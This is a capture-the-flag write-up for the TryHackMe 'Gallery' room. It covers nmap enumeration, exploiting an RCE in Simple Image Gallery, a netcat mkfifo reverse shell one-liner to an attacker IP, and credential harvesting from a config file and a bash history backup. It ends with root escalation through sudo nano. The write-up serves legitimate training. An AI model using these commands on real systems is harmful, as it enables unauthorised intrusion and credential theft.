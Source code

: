 ```yaml
---
title: "Gallery TryHackMe"
date: "02-15-2022"
author: "Reda BELHAJ"
summary: "The gallery is not very well secured. Designed and created by @Mikaa !"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/Gallery/bg.png"
---
```

Let’s take a look at the [Gallery CTF](https://tryhackme.com/room/gallery666) on TryHackMe Created by **@Mikaa**.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.22.177 -sC -sS
```
The “Nmap Output” displayed `2` service running under port 80 and 8080.
![Nmap](/images/Gallery/nmap.JPG)

And I've decided to search the http-title of the web application running in 8080: **Simple Image Gallery** and it come out as a *Content management system*.

## Exploiting
Now let’s look for exploits that we can use.

```
searchsploit Simple Image Gallery
```
![SearchSploit](/images/Gallery/searchsploit.JPG)
The Output displayed that there's a **RCE**: Remote Code Execution and a **SQLi**: SQL Injection. And I've decide to go with the RCE vulnerability:
![Exploit](/images/Gallery/exploit.JPG)

So it successfully did a RCE and uploaded a shell on the host. As we open the link that we got, we did see a result of the RCE and I tried **ls** command on it:
![LsAll](/images/Gallery/lsall.JPG)

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload using URL encoding:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.174.180 4444 >/tmp/f
```

**Great!** I received a reverse connection on my port 4444. And I've upgraded the shell with pty module: 
![shellOpen](/images/Gallery/shellOpen.JPG)


## Admin’s Password Hash
Now we're in the machine and I decided to take a look at the `initialize.php` file which gave me the username and the password for accessing the database:
![initial](/images/Gallery/initial.JPG)

Then I tried to connect to the database using the credentials of last file. And I found the **Admin’s Password Hash**:
![insideDB](/images/Gallery/insideDB.JPG)

## User Flag
Inside the home directory of the mike user. I notice a file called `user.txt` but I didn't have the rights to access it. 
![premDenied](/images/Gallery/premDenied.JPG)

As I was exploring I found a directory named `backups` and in it there was a folder with the name `mike_home_backup`. And inside it I looked for the *bash_history* file:
![bashHistory](/images/Gallery/bashHistory.JPG)

**Boom** we found mike's password.

```
su mike
```

Then I found the user.txt file:

```
THM******************
```

## Root Flag
Now it’s time to escalate our privileges and get the root flag. 
![sudoL](/images/Gallery/sudoL.JPG)

So as a result of `sudo -l` we found that there's a file called `/opt/rootkit.sh` which mike was allowed to run as sudo. And it ask for the user input and with the use of the switch cases it delivers:

Lastely I searched for nano on [GTFObins](https://gtfobins.github.io/) and I found this:

```
sudo /bin/bash /opt/rootkit.sh
^R^X
reset; sh 1>&0 2>&0
```

Running the file using sudo, entering the read command to open nano and following the steps of GTFObins helps me escalate to root:
![privEscDone](/images/Gallery/privEscDone.JPG)

Then I found the root.txt file:

```
THM******************
```